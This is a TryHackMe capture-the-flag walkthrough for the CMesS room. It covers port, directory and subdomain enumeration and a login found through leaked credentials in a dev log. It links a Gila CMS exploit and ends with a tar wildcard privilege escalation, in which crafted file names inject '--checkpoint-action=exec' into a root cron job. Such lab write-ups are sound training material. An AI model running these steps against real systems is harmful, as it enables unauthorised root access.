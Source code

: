 # 39 - CMesS (subdomain enum) (tar \* exploitation)

Room Link --> [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

### Enumeration

Please add `10.10.86.16 cmess.thm` to /etc/hosts

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv   -sV -p- -T5

# outputs
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://cmess.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 500,403,404

# output
/login
/sites
/index
/about
/themes
/INDEX
/1px
/lib
```
{% endcode %}

#### Sub-domain enumeration with wfuzz

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"
```
{% endcode %}

Add the `dev.cmess.thm` to /etc/hosts.

{% code overflow="wrap" %}
```
Development Log
andre@cmess.thm
Have you guys fixed the bug that was found on live?

support@cmess.thm
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!

support@cmess.thm
Update! We have had to delay the patch due to unforeseen circumstances

andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```
{% endcode %}

And we can try to login with creds: `andre@cmess.thm : KPFTN_f2yxe%` .

Searching Google for "Gila Cms exploit" and stumbled on [this](https://www.exploit-db.com/exploits/51569)

### Initial Access

Ready nc listener beore runnin the code.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Another way to get shell

{% embed url="https://viperone.gitbook.io/pentest-everything/writeups/tryhackme/linux/cmess" %}

###

`cat /etc/crontab` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see a cron job owned by root, utilizing the `tar *`  - wildcards. So we can exploit this.

But we have to be in "andre" home dir for this to work, then i realized we have to get access to user andre 1st.

Then i uploaded `linPEAS` into the machine and saw a file in the /opt dir.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
{% endcode %}

We can ssh in as andres and exploit the  `tar *` vuln.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

exploiting `tar *` or `tar wildcards` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Alternatively:

```
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# just wait 2 minutes for the job to run.
```

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Done.
